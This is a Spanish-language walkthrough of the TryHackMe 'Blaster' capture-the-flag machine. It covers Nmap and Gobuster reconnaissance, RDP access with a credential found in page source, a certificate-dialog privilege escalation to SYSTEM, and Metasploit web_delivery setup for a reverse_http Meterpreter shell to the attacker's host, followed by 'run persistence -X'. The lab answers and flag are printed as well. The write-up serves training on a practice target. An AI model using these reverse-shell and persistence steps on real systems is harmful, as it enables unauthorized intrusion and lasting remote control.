

# Guía de Explotación - TryHackMe Blaster

## 1. Reconocimiento

Comenzamos con el reconocimiento de la máquina objetivo mediante un escaneo de Nmap. Utilizamos el siguiente comando para identificar servicios y versiones:

```bash
nmap -Pn -sV -sC -T5 IP_MAQUINA_ATACADA
```


El escaneo revela los siguientes puertos abiertos:
- **80/TCP** (HTTP - Servidor Web IIS)
- **3389/TCP** (RDP - Escritorio Remoto)

Al acceder al puerto **80**, encontramos la página predeterminada de IIS.


### Enumeración de directorios con Gobuster

Utilizamos `gobuster` para descubrir directorios ocultos en el servidor web:

```bash
gobuster dir -u http://IP_MAQUINA_ATACADA/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
```


Uno de los directorios devueltos contiene una publicación con información potencialmente útil.


Al hacer clic en la publicación "Ready Player One", encontramos un comentario en el código fuente con una posible credencial.



```txt
parzival
```


### Acceso mediante RDP

Usamos **Remmina** para conectarnos a la máquina víctima con las credenciales encontradas:

```txt
Usuario: Wade
Contraseña: parzival
```

Una vez dentro, accedemos al archivo `user.txt` y encontramos la primera flag:

```txt
THM{HACK_PLAYER_ONE}
```


---

## 2. Escalada de Privilegios

En el escritorio de **Wade**, encontramos un archivo sospechoso llamado `hhupd`.


Al ejecutarlo, nos solicita la contraseña del Administrador, la cual no conocemos. Sin embargo, si hacemos clic en `Show more details`, se muestra información adicional.


Al examinar el certificado, encontramos la opción `VeriSign Commercial Software Publishers CA`.


Al hacer clic, se abre una página web que podemos guardar en la máquina.


Al elegir `Guardar como`, seleccionamos `cmd` en el desplegable.


Esto nos otorga acceso a una **CMD con privilegios de SYSTEM** (`NT AUTHORITY\SYSTEM`).


Ahora podemos acceder al escritorio del Administrador y leer el archivo `root.txt`.

```bash
cd \Users\Administrator\Desktop
cat root.txt
```


---

## 3. Post-Explotación y Persistencia

Ahora configuramos un shell inverso utilizando **Metasploit** con el módulo `exploit/multi/script/web_delivery`.

```bash
msfconsole
use exploit/multi/script/web_delivery
show options
```

Configuramos los valores adecuados:

```bash
set target 2
set lhost NUESTRA_IP
set lport 3389
set payload windows/meterpreter/reverse_http
```


Ejecutamos el exploit:

```bash
run -j
```


Ejecutamos el comando en la máquina comprometida para recibir la conexión inversa:


Ahora tenemos acceso a una sesión **Meterpreter** en la máquina comprometida.


Para asegurar persistencia en el sistema, ejecutamos:

```bash
run persistence -X
```

Esto nos garantiza acceso remoto continuo en caso de reinicio del sistema.

¡Máquina comprometida con éxito!